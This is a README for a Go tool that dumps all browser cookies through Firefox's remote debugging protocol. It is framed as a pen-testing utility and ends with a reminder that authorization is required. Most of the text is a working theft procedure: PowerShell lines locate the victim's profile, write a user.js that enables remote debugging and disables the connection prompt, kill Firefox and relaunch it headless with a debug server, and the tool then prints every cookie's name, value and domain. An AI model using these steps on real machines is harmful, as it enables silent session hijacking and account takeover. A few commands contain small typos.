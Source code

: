 # Firefox - Debug client for cookie access

Connect to Firefox debug port and issue Javascript commands, useful for grabbing cookies.

For now I have focused on Windows, but it should work with macOS (even more useful there actually) - but I don't have a MacBook at the moment to test it.


## Technical things and debug protocol

This tool is doing things at the TCP level using `net.Dial` to get a TCP client (`Conn`) to Firefox. 

It then sends various config and setup debug messages as JSON serialized objects to eventually run Javascript commands using the `evaluateJSAsync` method and access `Services.cookies.cookies`. 

There is likely a much better/easier way to implemented this, as Firefox recently (since 78) added a `Network.getAllCookies` Debug API, and I was not yet able to figure out how to invoke that. 

The Mozilla documentation for the `Remote Debug Protocol` is located here: https://docs.firefox-dev.tools/backend/protocol.html

This tool is written in Golang using concurrent sender/receiver routines, because I thought it's cool to play around with that.

The code leverages a single struct for 5 different "kind of" messages to the server. The structure is named `wireMessage` and represents all possible JSON requests/responses. Due to the use of a single message type for all requests/responses it can get a bit messy trying to understand the code. Yay. :)


## Background and more info about browser remote debugging

There is more background info about the tool and browser remote debugging on my blog at: 

* [Remote Debugging with Firefox](https://embracethered.com/blog/posts/2020/cookies-on-firefox/)
* [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Cookie Crimes and the new Microsoft Edge Browser](https://embracethered.com/blog/posts/2020/cookie-crimes-on-mirosoft-edge/)


## Inspired by Cookie Crimes

What inspired me to research and build this? Go check out [Cookie Crimes](https://github.com/defaultnamehere/cookie_crimes) for Chrome by @mangopdf.

## Basic usage

```
.\ffcm.exe 
```

The result is cookies in the form of `name:value:domain`

### Command line options

* **-server**: the name of the debug server, by default localhost
* **-port**: the port of the debug server, by default set to 9222
* **-log**: flag that will enable logging to stdout for debug purposes, by default not specified


**Note:** By default the debug port of Firefox is not enabled. See the section below on how to setup and enable Firefox remote debug protocol.

### Want to run some other code in the debugger?

You can update the Javascript command being sent to the server by changing the `defaultCommand` constant in the source code.

## Enabling remote debugging

To enable remote debugging the following Firefox settings have to be updated:

* *devtools.debugger.remote-enabled*
* *devtools.debugger.prompt-connection*
* *devtools.chrome.enabled*

### Windows setup

Below are a few lines of PowerShell which create a `user.js` which typically seems to get merged into the `pref.js` file. If it does not work via the `user.js` file, you can try to update the `pref.js` file directly - but for me the `user.js` file has worked well.

Firefox needs a restart for them to be picked up.

First, retrieve the users's profile via:

```
$firstprofile = (gci $env:APPDATA\Mozilla\Firefox\Profiles\*.default-rel* -Directory | Select-Object -First 1).FullName
```

And add the following lines to the `user.js` file (by default this file does not exist):

```
write 'user_pref("devtools.chrome.enabled", true);' | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.remote-enabled", true);'  | out-file $firstprofile\user.js -Append -Encoding ascii
write 'user_pref("devtools.debugger.prompt-connection", false);' | out-file $firstprofile\user.js -Append -Encoding ascii
```

That's it, next time Firefox starts the settings will be applied.


### Connecting and launching ffcm

Here are two commands that might come in handy when trying this, first is to terminate all instances of Firefox:
```
Get-Process -Name firefox | Stop-Proces
```

And launching Firefox with the `-start-debugger-server` option:

```
Start-Process 'C:\Program Files\Mozilla Firefox\firefox.exe' -ArgumentList "-start-debugger-server 9222 -headless"
```

After that you can launch `ffcm.exe` the results are sent to `stdout`.


### macOS Setup

// TODO


## Build

Very simple, get the code (`main.go` file) and build it.

### Get the code

```
go get github.com/wunderwuzzi23/firefox-cookiemonster
```

or 

```
git clone https://github.com/wunderwuzzi23/firefox-cookiemonster
```


### Build command

```
build -o ffcm.exe main.go
```

#### Cross compile

If you code Go on Linux or WSL you can cross-compile with:

```
$ env GOARCH=amd64 GOOS=windows go build -o ffcm.exe main.go
```

### Interesting behavior with cross compiled Go binaries!

Windows Defender seems to be doing **some extra security scans for cross compiled binaries**. I got a popup from Defender saying it might take up to 10 seconds for the binary to run because its being scanned... It still ran without issues though. When compiling natively on Windows there was no extra scan or popup.


## Final remarks

**As always the reminder that pen testing requires authorization from proper stakeholders. Be nice, don't do crimes.**

